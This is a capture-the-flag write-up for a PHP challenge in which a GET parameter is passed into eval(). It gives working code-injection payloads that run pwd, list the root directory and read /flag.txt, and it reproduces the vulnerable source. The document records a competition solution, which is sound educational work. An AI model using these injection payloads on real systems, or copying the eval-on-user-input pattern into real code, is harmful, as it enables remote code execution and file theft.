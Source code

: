 
## Si paling eval

**Description:** - <br>
**Target:** http://103.187.146.174:8080/

## Steps
The site showed the index.php source code
```
<?php  
if (isset($_GET['nama'])) {  
$cmd = $_GET['nama'];  
  
print eval("print 'Hello $cmd';");  
} else {  
highlight_file(__FILE__);  
}  
?>
```
From the source code and title, we know that the objective of this challenge is to leverage `eval()` in PHP to gain code execution. We will use `nama` parameter at the end of the URL.
Putting in `http://103.187.146.174:8080/?nama= ';print exec('pwd'); echo' ` and submitting we get `Hello /var/www/html` , which confirming that command execution is successful. 

Searching through the usual directories, we are unable to find the flag. Therefore, we need to list directories.
```
http://103.187.146.174:8080/?nama= '; print_r(glob('/*')); echo'
```
which yields,
```
Hello Array ( [0] => /bin [1] => /boot [2] => /dev [3] => /etc [4] => /flag.txt [5] => /home [6] => /lib [7] => /lib64 [8] => /media [9] => /mnt [10] => /opt [11] => /proc [12] => /root [13] => /run [14] => /sbin [15] => /srv [16] => /sys [17] => /tmp [18] => /usr [19] => /var )
```
Hence, we found a file called `flag.txt` in the root directory which we can print with the last payload.
```
http://103.187.146.174:8080/?nama='; system('cat /flag.txt'); echo'
```

```
Flag: Fostifest{REDACTED}
```
## References:
https://ctftime.org/writeup/16595
https://hackin7.github.io/Generated/CTF_Writeups/2021/Sieberrsec%20CTF%202.0/Training/Calculator%20Evaluation/index.html
